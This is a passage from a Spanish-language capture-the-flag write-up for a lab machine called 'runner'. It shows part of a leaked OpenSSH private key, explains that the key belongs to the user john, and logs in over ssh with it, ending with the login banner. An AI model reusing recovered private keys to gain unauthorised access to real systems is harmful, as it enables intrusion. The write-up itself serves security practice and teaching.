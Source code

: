 ```bash
WIvbU7JwiElyL0w299n5ptakZiEclwAAAAMBAAEAAAGABgAu1NslI8vsTYSBmgf7RAHI4N
BN2aDndd0o5zBTPlXf/7dmfQ46VTId3K3wDbEuFf6YEk8f96abSM1u2ymjESSHKamEeaQk
lJ1wYfAUUFx06SjchXpmqaPZEsv5Xe8OQgt/KU8BvoKKq5TIayZtdJ4zjOsJiLYQOp5oh/
1jCAxYnTCGoMPgdPKOjlViKQbbMa9e1g6tYbmtt2bkizykYVLqweo5FF0oSqsvaGM3MO3A
Sxzz4gUnnh2r+AcMKtabGye35Ax8Jyrtr6QAo/4HL5rsmN75bLVMN/UlcCFhCFYYRhlSay
yeuwJZVmHy0YVVjxq3d5jiFMzqJYpC0MZIj/L6Q3inBl/Qc09d9zqTw1wAd1ocg13PTtZA
mgXIjAdnpZqGbqPIJjzUYua2z4mMOyJmF4c3DQDHEtZBEP0Z4DsBCudiU5QUOcduwf61M4
CtgiWETiQ3ptiCPvGoBkEV8ytMLS8tx2S77JyBVhe3u2IgeyQx0BBHqnKS97nkckXlAAAA
wF8nu51q9C0nvzipnnC4obgITpO4N7ePa9ExsuSlIFWYZiBVc2rxjMffS+pqL4Bh776B7T
PSZUw2mwwZ47pIzY6NI45mr6iK6FexDAPQzbe5i8gO15oGIV9MDVrprjTJtP+Vy9kxejkR
3np1+WO8+Qn2E189HvG+q554GQyXMwCedj39OY71DphY60j61BtNBGJ4S+3TBXExmY4Rtg
lcZW00VkIbF7BuCEQyqRwDXjAk4pjrnhdJQAfaDz/jV5o/cAAAAMEAugPWcJovbtQt5Ui9
WQaNCX1J3RJka0P9WG4Kp677ZzjXV7tNufurVzPurrxyTUMboY6iUA1JRsu1fWZ3fTGiN/
TxCwfxouMs0obpgxlTjJdKNfprIX7ViVrzRgvJAOM/9WixaWgk7ScoBssZdkKyr2GgjVeE
7jZoobYGmV2bbIDkLtYCvThrbhK6RxUhOiidaN7i1/f1LHIQiA4+lBbdv26XiWOw+prjp2
EKJATR8rOQgt3xHr+exgkGwLc72Q61AAAAwQDO2j6MT3aEEbtgIPDnj24W0xm/r+c3LBW0
axTWDMGzuA9dg6YZoUrzLWcSU8cBd+iMvulqkyaGud83H3C17DWLKAztz7pGhT8mrWy5Ox
KzxjsB7irPtZxWmBUcFHbCrOekiR56G2MUCqQkYfn6sJ2v0/Rp6PZHNScdXTMDEl10qtAW
QHkfhxGO8gimrAvjruuarpItDzr4QcADDQ5HTU8PSe/J2KL3PY7i4zWw9+/CyPd0t9yB5M
KgK8c9z2ecgZsAAAALam9obkBydW5uZXI=
-----END OPENSSH PRIVATE KEY-----
```

Si decodificamos el base64 y vemos los bytes de esta llave, podemos encontrar un comentario que es `john@runner`, lo que seguramente es el usuario al que le pertenece esta llave. Autenticándonos por ssh con esta llave como `john` nos dará acceso al sistema:

```bash
❯ /usr/bin/ssh -i id_rsa john@runner.htb
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-102-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

  System information as of Sat Aug 24 01:51:40 PM UTC 2024

  System load:                      0.18603515625
  Usage of /:                       81.4% of 9.74GB
  Memory usage:                     48%
  Swap usage:                       3%
  Processes:                        236
  Users logged in:                  1
  IPv4 address for br-21746deff6ac: 172.18.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.10.11.13
  IPv6 address for eth0:            dead:beef::250:56ff:feb0:f855


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sat Aug 24 12:06:59 2024 from 10.10.14.58
```